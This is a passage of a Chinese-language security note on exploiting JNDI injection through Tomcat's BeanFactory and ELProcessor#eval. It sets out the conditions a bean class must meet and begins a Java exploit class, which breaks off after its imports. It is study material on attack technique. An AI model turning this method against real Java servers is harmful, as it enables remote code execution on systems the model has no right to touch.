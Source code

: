![image-20220712223936443](README/image-20220712223936443.png)

`org.apache.naming.factory.BeanFactory`在 `getObjectInstance()` 中会通过反射的方式实例化Reference所指向的任意Bean Class，并且会调用setter方法为所有的属性赋值。而该Bean Class的类名、属性、属性值，全都来自于Reference对象，均是攻击者可控的

###### 目标Bean Class条件

- 必须有一个无参构造方法

- 有public的setter方法且参数为一个String类型。

  事实上，这些setter不一定需要是set..开头的方法，根据`org.apache.naming.factory.BeanFactory`中的逻辑，我们可以把某个方法强制指定为setter。

##### use `org.apache.naming.factory.BeanFactory`+`javax.el.ELProcessor#eval`

> 通过BeanFactory#getObjectInstance()方法实例化Reference，且可控
>
> 传入的Reference类必须要是ResourceRef类
>
> 需要存在Tomcat依赖

```java
package pers.jndi;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;

import javax.naming.NamingException;
import javax.naming.StringRefAddr;
import java.net.MalformedURLException;
import java.rmi.AlreadyBoundException;
import java.rmi.Naming;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class JndiElProcessor {
```
